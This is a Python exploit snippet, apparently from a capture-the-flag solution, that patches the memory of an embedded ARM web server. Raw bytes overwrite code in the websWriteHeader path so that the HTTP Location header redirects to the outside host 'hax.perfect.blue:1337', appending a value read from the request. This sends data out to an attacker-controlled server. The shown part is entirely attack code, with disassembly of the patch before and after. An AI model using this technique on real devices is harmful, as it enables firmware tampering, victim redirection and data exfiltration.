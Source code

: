 ```python
upload(0x6004D26C, b"\xa8:\x0e\xe3\x040F\xe3")

"""
ROM:60058B90                 LDR             R3, [R11,#var_30]
ROM:60058B94                 MOV             R2, #aS_4 ; "%s"
ROM:60058B9C                 MOV             R1, #aLocation ; "Location"
ROM:60058BA4                 LDR             R0, [R11,#var_28]
ROM:60058BA8                 BL              websWriteHeader
ROM:60058BAC                 B               loc_60058C00
===>
ROM:60058BA4                 LDR             R0, [R11,#var_28]
ROM:60058B90                 LDR             R3, [R0, #0x178]
ROM:60058B94                 MOV             R2, "http://hax.perfect.blue:1337/%s"
ROM:60058B9C                 MOV             R1, #aLocation ; "Location"
ROM:60058BA8                 BL              websWriteHeader
ROM:60058BAC                 B               loc_60058C00
"""

upload(0x63002000, b"http://hax.perfect.blue:1337/%s\x00")

overwrite = b"(\x00\x1b\xe5x1\x90\xe5"
# asm("movw r2, #0x2000\nmovt r2, #0x6300")
overwrite += b"\x00 \x02\xe3\x00#F\xe3"
# Location
overwrite += b"\xe4\x13\x06\xe3\x07\x10\x46\xe3"
upload(0x60058B90, overwrite)
```
